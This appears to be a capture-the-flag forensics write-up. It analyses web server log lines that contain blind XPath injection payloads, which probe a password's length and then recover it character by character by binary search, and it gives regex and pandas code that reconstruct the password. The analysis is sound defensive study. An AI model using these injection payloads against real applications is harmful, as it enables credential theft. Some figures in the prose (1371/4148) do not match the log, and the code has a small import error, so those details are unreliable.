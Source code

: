 # Pathological

We have an access log that contains http requests. After digging, I found the following requests where a password is somehow retrieved

```
192.168.187.128 - - [22/Mar/2022:22:12:00 +0100] "GET /?type=\"]%20|%20//Password[string-length(.)>24]%20|%20//*[@Random=\" HTTP/1.1" 200 4184 "-" "curl/7.68.0"
192.168.187.128 - - [22/Mar/2022:22:12:00 +0100] "GET /?type=\"]%20|%20//Password[string-length(.)>32]%20|%20//*[@Random=\" HTTP/1.1" 200 1373 "-" "curl/7.68.0"
192.168.187.128 - - [22/Mar/2022:22:12:00 +0100] "GET /?type=\"]%20|%20//Password[string-length(.)>28]%20|%20//*[@Random=\" HTTP/1.1" 200 4184 "-" "curl/7.68.0"
192.168.187.128 - - [22/Mar/2022:22:12:00 +0100] "GET /?type=\"]%20|%20//Password[string-length(.)>30]%20|%20//*[@Random=\" HTTP/1.1" 200 4184 "-" "curl/7.68.0"
192.168.187.128 - - [22/Mar/2022:22:12:00 +0100] "GET /?type=\"]%20|%20//Password[substring(.,1,1)>\"%4f\"]%20|%20//*[@Random=\" HTTP/1.1" 200 1373 "-" "curl/7.68.0"
192.168.187.128 - - [22/Mar/2022:22:12:00 +0100] "GET /?type=\"]%20|%20//Password[substring(.,1,1)>\"%37\"]%20|%20//*[@Random=\" HTTP/1.1" 200 4184 "-" "curl/7.68.0"
192.168.187.128 - - [22/Mar/2022:22:12:00 +0100] "GET /?type=\"]%20|%20//Password[substring(.,1,1)>\"%43\"]%20|%20//*[@Random=\" HTTP/1.1" 200 1373 "-" "curl/7.68.0"
192.168.187.128 - - [22/Mar/2022:22:12:00 +0100] "GET /?type=\"]%20|%20//Password[substring(.,1,1)>\"%3d\"]%20|%20//*[@Random=\" HTTP/1.1" 200 4184 "-" "curl/7.68.0"
192.168.187.128 - - [22/Mar/2022:22:12:00 +0100] "GET /?type=\"]%20|%20//Password[substring(.,1,1)>\"%40\"]%20|%20//*[@Random=\" HTTP/1.1" 200 4184 "-" "curl/7.68.0"
192.168.187.128 - - [22/Mar/2022:22:12:00 +0100] "GET /?type=\"]%20|%20//Password[substring(.,1,1)>\"%41\"]%20|%20//*[@Random=\" HTTP/1.1" 200 4184 "-" "curl/7.68.0"
192.168.187.128 - - [22/Mar/2022:22:12:00 +0100] "GET /?type=\"]%20|%20//Password[substring(.,1,1)>\"%42\"]%20|%20//*[@Random=\" HTTP/1.1" 200 4184 "-" "curl/7.68.0"
192.168.187.128 - - [22/Mar/2022:22:12:00 +0100] "GET /?type=\"]%20|%20//Password[substring(.,2,1)>\"%4f\"]%20|%20//*[@Random=\" HTTP/1.1" 200 4184 "-" "curl/7.68.0"
```

## Obersavtions

The first 4 requests determine the password length with a greater then comparison. We can see that a content length of 
1371 responds to `false` and 4148 `true`: The password is not longer(>) than 32 chars but longer(>) than 30 chars. 

Afterwards, we can see that the password is extraced char by char. However, each reqeust for the n-th char always start with `%4f` which is an ASCII **O**. Also, there are always 7 requests - interestingly, there are 128 ASCII chars which corresponds to $2^7$. Therefore, the attacker uses binary search to extract the password char by char.

We simply have to look at the last reqeust and the content length. 

- 4148 $\implies$ It is the next ASCII value
- 1371 $\implies$ It is the current ASCII value

## Solving

I created an regex to collect all important pieces of information

```re
substring\(\.,(\d+),1\)>\\\"%([0-9a-f]{2})\\.*200 (1373|4184)
```

such that I could obtain CSV

```csv
a,b,c
1,4f,1373
1,37,4184
1,43,1373
1,3d,4184
1,40,4184
1,41,4184
1,42,4184
2,4f,4184
2,67,1373
```

To extract the password, I loaded everything into a pandas *dataframe* and applied some hacky code to look only at the last reqeust for the current char.

```python
import pandas as pd
from IO import StringIO
df = pd.read_csv(StringIO(csv))

lastdup = df[(~df['a'].duplicated(keep='last'))]

new = lastdup.b.apply(lambda x:int(x,16)) + (lastdup.c == 4184)*1

"".join(new.apply(lambda x:chr(x)).to_list())
```